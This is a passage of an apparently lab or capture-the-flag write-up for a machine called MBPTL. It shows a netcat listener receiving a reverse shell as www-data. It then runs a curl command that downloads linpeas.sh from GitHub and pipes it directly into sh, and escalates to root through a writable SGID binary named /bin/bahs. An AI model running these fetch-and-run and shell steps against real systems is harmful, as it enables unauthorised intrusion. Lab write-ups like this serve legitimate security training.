 ```bash
┌──(m1kasha㉿kali)-[~/machine/MBPTL/solver]
└─$ nc -lnvp 9001    
listening on [any] 9001 ...
connect to [192.168.200.219] from (UNKNOWN) [172.21.0.4] 40404
Linux 520b71d2867f 6.11.2-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.11.2-1kali1 (2024-10-15) x86_64 GNU/Linux
 07:26:41 up  3:05,  0 users,  load average: 2.72, 2.31, 1.53
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off

```
### PRIV ESC

Using linpeash

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

Notice this result
```bash
╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwxr-sr-x 1 root shadow 38K Aug 26  2021 /sbin/unix_chkpwd
-rwxr-sr-x 1 root tty 35K Jan 20  2022 /usr/bin/wall
-rwxr-sr-x 1 root shadow 31K Feb  7  2020 /usr/bin/expiry
-rwxr-sr-x 1 root shadow 79K Feb  7  2020 /usr/bin/chage
You can write SGID file: /bin/bahs

```

So i just try /bin/bahs
```bash
/bin/bahs
ls
backups
cache
lib
local
lock
log
mail
opt
run
spool
tmp
www
whoami
root
```

Boom rooted.